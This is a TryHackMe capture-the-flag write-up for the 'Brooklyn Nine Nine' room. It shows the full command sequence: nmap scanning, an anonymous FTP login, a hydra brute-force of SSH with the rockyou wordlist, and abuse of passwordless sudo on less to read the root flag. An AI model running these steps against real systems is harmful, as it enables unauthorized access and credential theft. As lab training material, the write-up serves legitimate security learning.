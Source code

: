```yaml
---
title : "Brooklyn Nine Nine - Write Up"
date : 2021-07-03T16:53:59+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
tags : ["hydra", "FTP", "sudo", "less", "TryHackMe"]
description : "TryHackMe's easy level machine."
---
```


| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/brooklynninenine)  | Easy  |  [Fsociety2006](https://tryhackme.com/p/Fsociety2006)  |

## Reconn

Using `nmap` we can detect an FTP server with the _anonymous_ user activated.

```bash
╰─ lanfran@parrot ❯ map 10.10.79.24                                                                                                ─╯
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 12:41 CEST
Nmap scan report for 10.10.79.24
Host is up (0.055s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.6.21
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.25 seconds
```
I logged to the FTP and downloaded the file inside.
```bash
╰─ lanfran@parrot ❯ ftp 10.10.79.24                                                                                                ─╯
Connected to 10.10.79.24.
220 (vsFTPd 3.0.3)
Name (10.10.79.24:lanfran): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 17  2020 .
drwxr-xr-x    2 0        114          4096 May 17  2020 ..
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.14 secs (0.8191 kB/s)
ftp> 
```

## Foothold - User

Reading the note, we get the name of 2 users, `Jake and Amy`, and Amy said to jake that his password is too weak.

So let's use **hydra** against the SSH with the user Jake and the wordlist _Rockyou_

```bash
╰─ lanfran@parrot ❯ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.79.24                                            ─╯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-04 12:49:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.79.24:22/
[22][ssh] host: 10.10.79.24   login: jake   password: [REDACTED]

```
Great! We have now the password for Jake!

Let's login, and retrieve the user's flag that's inside `/home/holt/user.txt`

## Root

Once inside the machine, I ran `sudo -l` to check if the user it's inside the sudoers file. Luckily he is!


```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

So let's read the root's flag with `less`.

```bash
jake@brookly_nine_nine:~$ sudo /usr/bin/less /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: [REDACTED]

Enjoy!!
/root/root.txt (END)
```

And that's it!

We rooted the machine!

That's all from my side, hope you find this helpful!